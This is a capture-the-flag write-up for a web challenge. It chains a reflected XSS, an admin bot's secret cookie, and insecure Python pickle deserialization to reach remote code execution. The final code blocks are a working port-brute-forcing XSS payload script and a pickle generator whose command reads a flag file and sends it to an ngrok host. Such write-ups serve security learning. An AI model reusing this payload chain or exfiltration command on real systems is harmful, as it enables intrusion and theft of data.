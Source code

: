 ## Triple Whammy

Fun web challenge with XSS and insecure python deserialization that sends a bot on a long journey.

After an initial read-through, it seems that there are three applications running for this challenge.
* server.py - An externally accessible Flask web-server
* admin_bot.js - A frontend to a bot that can be sent to different locations, imitating an authenticated user
* internal.py - Another Flask web-server, only accessible internally (by the bot) which is given a random port between 5700 and 6000


 a bot we have to send to some
location, which indicates some kind of XSS vulnerability. The bot has a cookie set with a secret, with which it is authorized to access certain parts of the web-server that we are not authorized to.

```js 
// Relevant part of the bot's visitUrl:
...
    try {
        const page = await browser.newPage()

        try {
            await page.setUserAgent('puppeteer');
            let cookies = [{
                name: 'secret',
                value: SECRET,
                domain: '127.0.0.1',
                httpOnly: true
            }]
            await page.setCookie(...cookies)
            await page.goto(url, { timeout: 5000, waitUntil: 'networkidle2' })
        } finally {
            await page.close()
        }
...
```

```python
# Relevant function that checks the cookie and only proceeds
# if the bot visits it

@app.route('/query', methods=['POST'])
def query():
    print("Got request /query")
    print(f"Request json: {request.json}")
    # get "secret" cookie
    cookie = request.cookies.get('secret')

    check if cookie exists
    if cookie == None:
        return {"error": "Unauthorized"}
    
    # check if cookie is valid
    if cookie != SECRET:
        return {"error": "Unauthorized"}
    
    # get URL
    try:
        url = request.json['url']
    except:
        return {"error": "No URL provided"}

    # check if URL exists
    if url == None:
        return {"error": "No URL provided"}
    
    # check if URL is valid
    try:
        url_parsed = urlparse(url)
        if url_parsed.scheme not in ['http', 'https'] or url_parsed.hostname != '127.0.0.1':
            return {"error": "Invalid URL"}
    except:
        return {"error": "Invalid URL"}
    
    # request URL
    try:
        requests.get(url)
    except:
        return {"error": "Invalid URL"}
    
    return {"success": "Requested"}
```

But it doesn't help us to send the bot to some random url, we want the flag, which is
stored as a text file at `./flag.txt`. This means that we need some form of RCE.
Looking at the code of `internal.py`, we can see that we probably need to leverage [insecure deserialization](https://starlox.medium.com/insecure-deserialization-attack-with-python-pickle-2fd23ac5ff8f), as it simply unpickles what we give it as a json object.

```python
# Insecure deserialization vector in internal.py

@app.route('/pickle', methods=['GET'])
def main():
    pickle_bytes = request.args.get('pickle')

    if pickle_bytes is None:
        return 'No pickle bytes'
    
    try:
        b = bytes.fromhex(pickle_bytes)
    except:
        return 'Invalid hex'
    
    try:
        data = pickle.loads(b)
    except:
        return 'Invalid pickle'

    return str(data)
```

We would like to send the bot to `internal.py/pickle` directly, yet the bot frontend only allows
to send it to `server.py`. So we need to take a detour over the `server.py/query`. However,
`server.py/query` needs to be `POST`ed, so we need to leverage an XSS vector that is found in the last piece of the puzzel, the `/`-route:

```python
# Reflected XSS

@app.route('/', methods=['GET'])
def main():
    name = request.args.get('name','')

    return 'Nope still no front end, front end is for noobs '+name
```

Here we can see a reflected XSS vector in the name parameter. So the final attack path is:

* Send the bot to `/?name=<reflected XSS payload>` which sends a
* `POST`-request to `/query` with a json-body object containing a `url`-field, that sends it to
* `internal.py/pickle?pickle=<some hex encoded payload>` that gets deserialized and gives us RCE.

To get past the port randomization, we just brute-force it. Here is the code for the final attack:

```python
import requests
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor

url = "https://triple-whammy-admin.chal.cyberjousting.com/visit"

def send_request(port):
    payload = {
        "path": f'''?name=<script>data%3d{{"url"%3a"http%3a//127.0.0.1%3a{port}/pickle%3fpickle%3d800495c5000000000000008c05706f736978948c0673797374656d9493948caa707974686f6e202d632022696d706f72742072657175657374733b20696d706f7274206f733b2072657175657374732e676574285c2268747470733a2f2f383937352d323030332d63642d633730632d626166362d646330632d646364302d393532392d653863342e6e67726f6b2d667265652e6170702f5c22202b206f732e706f70656e285c22636174202f6374662f666c61672e7478745c22292e726561642829292e74657874229485945294}}%3b+fetch("/query",+{{"method"%3a+"POST",+"headers"%3a+{{"Content-Type"%3a+"application/json"}},+"body"%3a+JSON.stringify(data)}})%3b</script>'''
    }
    response = requests.post(url, data=payload)
    return response.status_code  

num_threads = 10
ports = reversed(range(5700, 6000))

with ThreadPoolExecutor(max_workers=num_threads) as executor:
    results = list(tqdm(executor.map(send_request, ports), total=300))

print(results)

```

The deserialization-payload simply runs a python command that will send a `GET`-request to our ngrok endpoint with the flag `cat`ted at the end.

```python
import pickle
import sys
import base64

command = 'python -c "import requests; import os; requests.get(\\"https://8975-2003-cd-c70c-baf6-dc0c-dcd0-9529-e8c4.ngrok-free.app/\\" + os.popen(\\"cat /ctf/flag.txt\\").read()).text"'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))


print(pickle.dumps(rce()).hex())
```